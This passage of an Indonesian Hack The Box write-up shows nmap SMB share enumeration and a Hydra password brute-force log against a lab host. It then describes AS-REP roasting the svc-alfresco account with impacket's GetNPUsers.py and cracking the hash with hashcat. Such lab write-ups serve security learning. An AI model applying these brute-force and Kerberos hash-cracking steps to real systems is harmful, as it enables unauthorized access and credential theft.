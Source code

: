 ```
|   account_used: <blank>
|   \\10.10.10.161\ADMIN$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\10.10.10.161\C$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: <none>
|   \\10.10.10.161\IPC$: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|     Anonymous access: READ
|   \\10.10.10.161\NETLOGON: 
|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED
|_    Anonymous access: <none>
Nmap done: 1 IP address (1 host up) scanned in 413.41 seconds
########## Bruteforcing all users with 'password', blank and username as password
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
 
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-11-26 22:13:48
[DATA] max 1 task per 1 server, overall 1 task, 96 login tries (l:32/p:3), ~96 tries per task
[DATA] attacking smb://10.10.10.161:445/
[STATUS] 74.00 tries/min, 74 tries in 00:01h, 22 to do in 00:01h, 1 active
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-11-26 22:15:07
```

### User

Kita mendapatkan beberapa nama user yang menarik, namun pada box kali ini, untuk melancarkan serangan pada user yang memiliki property ‘Do not require Kerberos preauthentication’ (UF_DONT_REQURE_PREAUTH). Kita akan menggunakan sebuah python script dari impacket yang bernama GetNPUsers.py dan mencoba mendapatkan TGT atau Ticket Granting Ticket dari user tersebut. Jika berhasil kita akan menerima sebuah hash yang dapat di crack menggunakan john atau hashcat dan merupakan password dari user tersebut.



![Image](img/3.jpg)

Kita sudah mendapatkan hash dari password milik user svc-alfresco, kita bisa crack menggunakan hashcat, penulis menggunakan wordlist rockyou.txt, dan berhasil

![Image](img/4.jpg)

